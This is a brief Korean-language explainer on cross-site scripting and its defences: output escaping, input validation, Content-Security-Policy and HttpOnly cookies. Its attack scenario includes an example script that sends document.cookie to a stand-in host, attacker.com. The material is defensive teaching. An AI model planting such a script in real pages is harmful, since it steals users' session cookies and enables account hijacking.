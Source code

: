 # XSS란
공격자가 악성 스크립트를 웹 페이지에 삽입하여, 자바스크립트를 실행시키는 공격 방식입니다. 
1. 게시판에 글 작성 기능이 존재
2. 공격자가 이런 글을 작성하여 올림
    ```html
    <script>
      fetch("https://attacker.com/steal?cookie=" + document.cookie);
    </script>
    ```
3. 다른 사용자가 글을 열면, 브라우저가 저 스크립트를 실행
4. 그 사용자의 세션 쿠키가 공격자 서버로 전송되어, 세션을 탈취

이를 방어하기 위해서는 다음 방법을 사용할 수 있습니다.
### 1. 출력 시 이스케이프
* HTML, JS, CSS, URL에 따라 다르게 인코딩합니다. 
* 예: `<script>` -> `&lt;script&gt;`
### 2. 입력 검증
허용된 값만 통과하도록 개발합니다. 
### 3. 컨텐츠 보안 정책 (CSP, Content-Security-Policy)
* 외부 스크립트 제한 및 `eval` 금지
* 예: `Content-Security-Policy: default-src 'self'`
### 4. HttpOnly 쿠키
* JS에서 쿠키 접근이 불가하도록 하여, 쿠키 탈취를 방지합니다.
* 예: `Set-Cookie: JSESSIONID=abc; HttpOnly; Secure`
